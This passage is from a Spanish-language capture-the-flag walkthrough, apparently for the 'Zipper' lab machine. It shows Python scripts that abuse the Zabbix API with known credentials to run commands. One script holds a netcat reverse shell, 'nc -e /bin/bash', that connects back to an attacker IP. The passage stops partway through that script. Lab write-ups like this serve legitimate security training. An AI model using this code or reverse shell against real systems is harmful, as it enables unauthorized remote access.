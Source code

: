 Como podemos ver tenemos dos Hosts, Zipper y Zabbix. Esto es importante, porque dependiendo del Host ID, sera donde se ejecute nuestro script.

# RCE to reverse shell

Ahora que sabemos un poco mas sobre el funcionamiento de la API y conocemos más de sus parámetros, podemos crear nuestro primer script en Zipper:

``` python
#!/usr/bin/env python3
from pyzabbix import ZabbixAPI

api_address="http://10.10.10.108/zabbix/api_jsonrpc.php"

user="zapper"
password="zapper"
hostname = "Zipper"
hostid = "10106"

zapi = ZabbixAPI(api_address)
zapi.login(user, password)

scriptid = ""


get_scripts = zapi.script.get(filter={"host": hostname})
for script in get_scripts:
    if script['name'] == "miau script":
        scriptid = script['scriptid']

if scriptid == "":
    scriptid = zapi.script.create(name='miau script', command='id')['scriptids']

print(zapi.script.execute(hostid=hostid, scriptid=scriptid))
```

Como salida tendremos lo siguiente:

``` text
{'response': 'success', 'value': 'uid=103(zabbix) gid=104(zabbix) groups=104(zabbix)\n'}
```

Ahora, usando una de las viejas conocidas para reverse shell, cargaremos el siguiente comando para hacer una reverse shell de netcat:

``` python
#!/usr/bin/env python3
from pyzabbix import ZabbixAPI

api_address="http://10.10.10.108/zabbix/api_jsonrpc.php"

user="zapper"
password="zapper"
hostname = "Zipper"
hostid = "10106"

zapi = ZabbixAPI(api_address)
zapi.login(user, password)

scriptid = ""

revshell = "nc -e /bin/bash 10.10.12.83 3001"

get_scripts = zapi.script.get(filter={"host": hostname})
for script in get_scripts:
    if script['name'] == "miau script":
```